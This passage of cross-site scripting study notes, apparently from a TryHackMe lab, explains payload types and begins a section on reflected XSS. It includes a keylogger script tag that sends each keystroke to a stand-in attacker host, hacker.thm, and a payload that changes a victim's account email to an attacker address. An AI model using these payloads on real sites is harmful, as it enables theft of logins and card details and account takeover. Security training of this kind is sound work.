 ### **Key Logger:**
---
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

  

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

  

### **Business Logic:**
---
This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address calledÂ `user.changeEmail()`. Your payload could look like this:

  

```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```


![Pasted image 20241106101715.png](../../../../IMAGES/Pasted%20image%2020241106101715.png)


## Reflected XSS
---

ReflectedÂ XSSÂ happens when user-supplied data in anÂ HTTPÂ request is included in the webpage source without any validation.

  
#### **Example Scenario**  
  
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from theÂ **error**Â parameter in the query string and is built directly into the page source.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)  
